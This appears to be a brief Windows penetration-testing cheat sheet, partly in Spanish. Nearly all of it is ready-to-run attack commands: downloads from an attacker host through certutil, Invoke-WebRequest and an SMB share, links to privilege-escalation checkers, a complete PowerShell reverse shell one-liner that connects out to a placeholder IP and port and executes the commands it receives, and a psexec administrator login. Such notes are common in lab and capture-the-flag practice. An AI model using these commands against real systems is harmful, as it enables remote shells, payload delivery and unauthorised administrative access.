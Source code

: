 # Getting a file 
### CMD
``` 
certutil.exe -urlcache -split -f "http://ip:8000/archivo" archivo
```
### Powershell
```
Invoke-WebRequest -Uri http://ip:8000/archivo -OutFile archivo
```

### SMB
Local
```
python Tools/impacket/smbserver.py Tools .
```
Remote
```
copy \\10.10.14.27\Tools\file
```
# Exploit suggesters
### .exe
```
https://github.com/pentestmonkey/windows-privesc-check/blob/master/windows-privesc-check2.exe
```
### Python
```
https://github.com/pentestmonkey/windows-privesc-check/blob/master/windows_privesc_check.py
```

## Reverse Shell
### Powershell
```
$client = New-Object System.Net.Sockets.TCPClient("IP",PORT);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

## Login as admin (sabiendo la pass)
```
psexec.py administrator@IP
```
